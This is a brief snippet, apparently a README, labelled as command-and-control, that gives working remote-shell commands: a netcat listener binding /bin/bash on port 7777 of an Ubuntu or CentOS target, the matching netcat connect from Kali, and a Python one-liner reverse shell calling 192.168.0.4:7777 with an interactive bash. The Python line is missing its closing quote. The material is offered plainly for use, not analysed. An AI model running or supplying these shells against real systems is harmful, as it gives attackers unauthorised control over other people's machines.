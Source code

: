 #commandandcontrol

Enter on kali
```
nc ip 7777
```


Enter on ubuntu or CentOS
```
nc -lvp 7777 -e /bin/bash
```

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.0.4',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);
```